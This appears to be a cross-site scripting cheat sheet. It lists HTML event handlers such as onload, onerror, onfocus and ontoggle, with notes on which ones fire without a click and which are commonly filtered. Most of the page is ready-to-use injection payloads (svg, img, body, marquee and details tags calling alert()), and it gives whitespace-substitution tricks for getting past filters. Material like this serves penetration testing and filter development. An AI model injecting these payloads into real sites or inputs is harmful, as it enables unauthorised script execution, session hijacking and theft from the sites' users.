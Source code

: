 **Usage**

Basically, if you have a payload that looks like:

```html
<svg onload=alert(1)>
```

You can try to replace the space between ‘svg’ and ‘onload’ with any of those chars and still work like you expect it to:

So, these are all valid HTML and will execute (demo: [valid html ](https://jsfiddle.net/z9fxpd8L/10/)):

```html
<svg/onload=alert(1)><svg>
<svg
onload=alert(1)><svg> # newline char
<svg	onload=alert(1)><svg> # tab char
<svgonload=alert(1)><svg> # new page char (0xc)
```

## JavaScript event based XSS <a href="#javascript-event-based-xss" id="javascript-event-based-xss"></a>

Good reference for more events: [More HTML events](https://developer.mozilla.org/en-US/docs/Web/Events)

### **Standard HTML events**

(0-click only)

| Name             | Tags                                                         | Note                                                                                                                     |
| ---------------- | ------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------ |
| onload           | body, iframe, img, frameset, input, script, style, link, svg | Great for 0-click, but super commonly filtered                                                                           |
| onpageshow       | body                                                         | Great for 0-click, but appears only usable in Non-DOM injections                                                         |
| onfocus          | most tags                                                    | for 0-click: use together with autofocus=""                                                                              |
| onmouseover      | most tags                                                    | if possible, add styling to make it as big as possible. It’s technically a 0-click if you don’t have to click, right? /s |
| onerror          | img, input, object, link, script, video, audio               | make sure to pass params to make it fail                                                                                 |
| onanimationstart | Combine with any element that can be animated                | Fired then a CSS animation starts                                                                                        |
| onanimationend   | Combine with any element that can be animated                | Fires when a CSS animation ends                                                                                          |
| onstart          | marquee                                                      | Fires on marquee animation start - Firefox only?                                                                         |
| onfinish         | marquee                                                      | Fires on marquee animation end - Firefox only?                                                                           |
| ontoggle         | details                                                      | Must have the ‘open’ attribute for 0-click                                                                               |

Examples:

```html
<body onload=alert()>
<img src=x onerror=alert()>
<svg onload=alert()>
<body onpageshow=alert(1)>
<div style="width:1000px;height:1000px" onmouseover=alert()></div>
<marquee width=10 loop=2 behavior="alternate" onbounce=alert()> (firefox only)
<marquee onstart=alert(1)> (firefox only)
<marquee loop=1 width=0 onfinish=alert(1)> (firefox only)
<input autofocus="" onfocus=alert(1)></input>
<details open ontoggle="alert()">  (chrome & opera only)
```
